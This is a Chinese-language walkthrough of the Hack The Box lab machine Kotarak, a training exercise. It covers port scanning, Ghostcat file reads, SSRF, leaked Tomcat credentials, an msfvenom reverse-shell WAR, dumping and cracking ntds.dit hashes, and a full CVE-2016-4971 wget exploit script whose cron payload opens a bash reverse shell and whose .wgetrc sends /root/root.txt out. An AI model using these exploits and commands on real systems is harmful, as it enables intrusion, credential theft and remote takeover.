# 前言

Kotarak这题难度为Hard，涉及的技术点还是挺多的，打下来还是收获不少，值得玩一玩儿

# nmap

扫描开放端口

```powershell
nmap -p- --min-rate 10000 10.10.10.55
```



针对开放端口使用脚本扫描

```bash
nmap -p 22,8009,8080,60000 -sC 10.10.10.55
```



可以看到开放了8009端口（ajp协议），可以想到Tomcat的幽灵猫漏洞（文件读取+文件包含）

# 8080

访问8080的tomcat管理页面，尝试了几个弱密码登录，登录失败



# 8009

前面端口扫描出了8009端口，searchsploit搜索下8009的`Ghostcat`漏洞


查看exp使用方法


尝试读取`WEB-INF/web.xml`文件

```bash
python2 /usr/share/exploitdb/exploits/multiple/webapps/48143.py -p 8009 -f WEB-INF/web.xml 10.10.10.55
```

读取成功


但只能读取`webapps`目录下文件，进一步利用需要知道目录下的文件，或使用文件包含结合文件上传，这里先放一放

# 60000

访问60000端口，提示一个web隐私浏览器



尝试在输入框中随便填写`123`提交，可以看到url中将输入拼接到了`url.php?path=`后


根据url的路径可以猜想到SSRF，尝试将path修改为`127.0.0.1:60000`，发现确实可以SSRF


尝试使用file协议访问`/etc/passwd`提示`try harder`，说明访问可能有限制


参考网上脚本，遍历1-1000以内的本地开放的端口

```bash
for i in $(seq 0 1000); do echo "$i: ";curl -s http://10.10.10.55:60000/url.php?path=localhost:$i ; done
```

查看扫描出的的开放端口，有320、888两个有web页面的端口

320端口是一个登录页面，没有账号密码没法登录




888端口是一个静态资源页面




可以看到每个文件的链接都是`http://10.10.10.55:60000/url.php?doc=`开头，直接点击访问是跳转`10.10.10.55`



不是ssrf访问会看不到文件内容，所以尝试用前面的ssrf访问backup，发现`admin`/`3@g01PdhB!`账号密码

```bash
10.10.10.55:60000/url.php?path=127.0.0.1:888?doc=backup
```


尝试使用该账号密码登录8080端口的tomcat管理页面



# 上传恶意war包

使用`msfvenom`生产恶意war包并上传

```bash
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o rev.war
Payload size: 13314 bytes
Final size of war file: 13314 bytes
Saved as: rev.war
```


访问url即可在443端口接收到shell

```http
http://10.10.10.55:8080/rev
```



通过[reverse-ssh工具](https://github.com/Fahrj/reverse-ssh "reverse-ssh工具")升级交互式shell



# 提权至atanas用户

查看flag文件`/home/atanas/user.txt`提示无权限，所以这里要先提权到atanas用户，查看当前用户目录`/home/tomcat`下所有文件，发现windows注册表文件和`ntds.dit`文件

`ntds.dit `文件是一个存储 Active Directory 数据的数据库，通常在在域控中，包括有关用户对象、组和组成员的信息，并且该文件还存储域中所有用户的密码哈希，



## dumphash

将上面的`.dit`和`.bin`拉到kali本地，kali集成`impacket`工具箱里的`impacket-secretsdump`命令可以就可以提取用户的密码hash

```bash
$ impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up...

```

接着将`:::`符号前面的最后一段hash取出，通过`hashcat`或一些在线hash破解的网站，如

[https://crackstation.net/](https://crackstation.net/ "https://crackstation.net/")和[https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash "https://hashes.com/en/decrypt/hash")

查出`atanas`用户的明文密码为`Password123!`，`Administrator`密码为`f16tomcat!`



尝试用这两个密码ssh登录`atanas`用户失败，应该是这账号被禁止ssh登录了，尝试用`tomcat`用户su到`atanas`，密码为`f16tomcat!`，登录成功


# 提权至root

## 10.0.3.133

`atanas`用户可以直接查看`/root/`目录下文件，查看`flag.txt`文件并无`flag`，通过`access.log`文件可以发现有台机器使用了低版本的`wget`请求`/archive.tar.gz`路径，并且每次请求间隔是2分钟

```bash
atanas@kotarak-dmz:/root$ cat app.log 
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$ cat flag.txt
Getting closer! But what you are looking for can't be found here.
atanas@kotarak-dmz:/root$ 
```

使用`find`命令查看本地并没有`archive.tar.gz`，使用`ping`日志中的`10.0.3.133`来源IP，发现可以ping通，可以想到是要拿下`10.0.3.133`机器的权限

```bash
atanas@kotarak-dmz:/root$ find / -name archive.tar.gz 2>/dev/null
atanas@kotarak-dmz:/root$                                        
atanas@kotarak-dmz:/root$ ping 10.0.3.133                        
PING 10.0.3.133 (10.0.3.133) 56(84) bytes of data.
64 bytes from 10.0.3.133: icmp_seq=1 ttl=64 time=0.066 ms
64 bytes from 10.0.3.133: icmp_seq=2 ttl=64 time=0.095 ms
^C
--- 10.0.3.133 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 999ms
rtt min/avg/max/mdev = 0.066/0.080/0.095/0.017 ms
atanas@kotarak-dmz:/root$ 
```

## wget漏洞

使用`searchsploit`查下`wget`的漏洞，在`wget`版本低于`1.18`可以rce，而目标版本使用的是`1.16`，符合条件



下面介绍下该漏洞（CVE-2016-4971），更多漏洞详情和poc可参考[https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064 "https://www.exploit-db.com/exploits/40064")

## CVE-2016-4971

`wget`默认情况下是将请求url中的文件名作为下载到本地的文件名，例如`wget`请求`http://website.com/folder/file.txt`，文件会保存在当前目录下，文件名为`file.txt`

在`wget`版本低于`1.18`时，若`wget`的`http`目标存在`30x`跳转到一个`ftp`地址，本地保存的文件名将会是`ftp`上的文件名，而忽略掉`http`目标的文件名。

例如用户请求`wget http://attackers-server/safe_file.txt`，攻击者可以构造一个302返回，将请求跳转到包含恶意文件的ftp服务器上

```http
HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=UTF-8
Location: ftp://attackers-server/.bash_profile
Content-Length: 262
Server: Apache
```

用户最后下载的文件将是`.bash_profile`，而`safe_file.txt`将会被忽略。

上面的利用只能下载到当前文件夹下，其实我们可以通过覆盖`wget`的配置文件来控制写入路径。

`wget`配置文件可以控制`wget`写入目录、post文件、http代理等，详细配置信息见[官网](https://www.gnu.org/software/wget/manual/wget.html#Wgetrc-Commands "官网")。`wget`配置文件默认会先从`/usr/local/etc/wgetrc`路径或环境变量`WGETRC`设置的路径读取，若都没有，则会从`$HOME/.wgetrc`读取配置。当`wget`是被定时任务执行时，文件的下载目录默认是执行用户的home目录，我们就可以在home目录下写入`.wgetrc`文件来配置`wget`的写入路径，可以通过写入定时任务、`~/.bashrc`(有的发行版为`~/.bash_profile`)来反弹shell，或在web目录写入`webshell`等操作。

所以我们接下来将靶机`10.10.10.55`（内网ip为`10.0.3.1`）作为攻击机，而`10.0.3.133`作为用户机，利用wget漏洞来获取`10.0.3.133`的权限。

由于需要运行exp的同时使用nc监听反弹的shell，就需要用到两个终端，可以反弹2个不同端口sehll或使用`tmux`分屏（单一会话，推荐使用），下面是tmux设置

```bash
# TERM的值可在kali终端运行echo $TERM获取
export TERM=xterm-256color 

# 设置终端大小，可在kali终端运行stty -a查看
stty rows 48
stty columns 236

# 运行tmux，ctrl+b激活终端，tmux使用说明可参考https://www.ruanyifeng.com/blog/2019/10/tmux.html
tmux

```

分屏效果如下



通过首先在`10.0.3.1`上启动一个ftp服务器，将恶意的`.wgetrc`配置文件方在ftp服务器下，由于是非root用户启动小于`1024`的端口号，所以需要用到`authbind`命令。然后监听接收shell的9999端口

```bash
atanas@kotarak-dmz:/tmp$ cat <<_EOF_>.wgetrc
post_file = /root/root.txt
output_document = /etc/cron.d/wget-root-shell
_EOF_
atanas@kotarak-dmz:/tmp$ authbind python -m pyftpdlib -p21 -w                                                         
/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to ano
nymous user.                                                                                                          
  RuntimeWarning)                                                           
[I 2022-06-18 05:52:51] >>> starting FTP server on 0.0.0.0:21, pid=29992 <<<
[I 2022-06-18 05:52:51] concurrency model: async
[I 2022-06-18 05:52:51] masquerade (NAT) address: None
[I 2022-06-18 05:52:51] passive ports: None

```

```bash
atanas@kotarak-dmz:/tmp$ nc -lvp 9999
Listening on [0.0.0.0] (family 0, port 9999)   
                                               

```

上面`.wgetrc`配置文件的`post_file`配置表示，所有`wget`的请求都使用`post`方法发送，并将设置的文件作为`post`请求体发送，等同于`--post-file=`命令的作用。`output_document`配置表示输出的文件路径和名称，等同于`-O`参数。

接着编辑下面的exp.py并在靶机启动，作用就是启动一个http服务器（`10.0.3.1`），用于接收来自同网段的`10.0.3.133`的定时`wget`请求，当请求为`get`时，转发到ftp服务器（kali `10.10.14.5`）下载`.wgetrc`文件，当请求为`post`时，返回内容为反弹shell的定时任务语句

```python
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.0.3.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.0.3.1/9999 0>&1' \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

运行exp后过几分钟即可在`9999`端口接收到shell


查看权限为root，ip为`10.0.3.133`，查看flag即可



# 参考

[https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html#http---tcp-60000](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html#http---tcp-60000 "https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html#http---tcp-60000")

[https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064 "https://www.exploit-db.com/exploits/40064")

https://www.youtube.com/watch?v=38e-sxPWiuY&t=1551s
